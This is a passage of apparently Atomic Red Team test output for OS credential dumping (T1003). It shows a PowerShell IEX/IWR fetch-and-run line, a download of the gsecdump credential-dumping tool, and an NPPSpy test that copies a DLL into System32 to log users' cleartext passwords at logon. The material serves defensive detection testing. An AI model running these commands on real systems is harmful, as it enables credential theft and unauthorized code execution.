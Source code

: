 ```
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){                                                                                                                                                        Move-Item $binpath "#{gsecdump_exe}"                                                                                                                                                                                                  }                                                                                                                                                                                                                                       Get Prereq Command (with inputs):                                                                                                                                                                                                       [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12                                                                                                                                                         $parentpath = Split-Path "C:\AtomicRedTeam\atomics\..\ExternalPayloads\gsecdump.exe"; $binpath = "$parentpath\gsecdump-v2b5.exe"                                                                                                        IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1" -UseBasicParsing)                                                                                            if(Invoke-WebRequestVerifyHash "https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe" "$binpath" 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC){                Move-Item $binpath "C:\AtomicRedTeam\atomics\..\ExternalPayloads\gsecdump.exe"                                                                                                                                                        }                                                                                                                                                                                                                                       [!!!!!!!!END TEST!!!!!!!]                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [********BEGIN TEST*******]                                                                                                                                                                                                             Technique: OS Credential Dumping T1003                                                                                                                                                                                                  Atomic Test Name: Credential Dumping with NPPSpy                                                                                                                                                                                        Atomic Test Number: 2                                                                                                                                                                                                                   Atomic Test GUID: 9e2173c0-ba26-4cdf-b0ed-8c54b27e3ad6                                                                                                                                                                                  Description: Changes ProviderOrder Registry Key Parameter and creates Key for NPPSpy. After user's logging in cleartext password is saved in C:\NPPSpy.txt. Clean up deletes the files and reverses Registry changes. NPPSpy Source: https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy                                                                                                                                                                                                                                                                                                                                                                                                              Attack Commands:                                                                                                                                                                                                                        Executor: powershell                                                                                                                                                                                                                    ElevationRequired: True                                                                                                                                                                                                                 Command:                                                                                                                                                                                                                                Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\NPPSPY.dll" -Destination "C:\Windows\System32"
```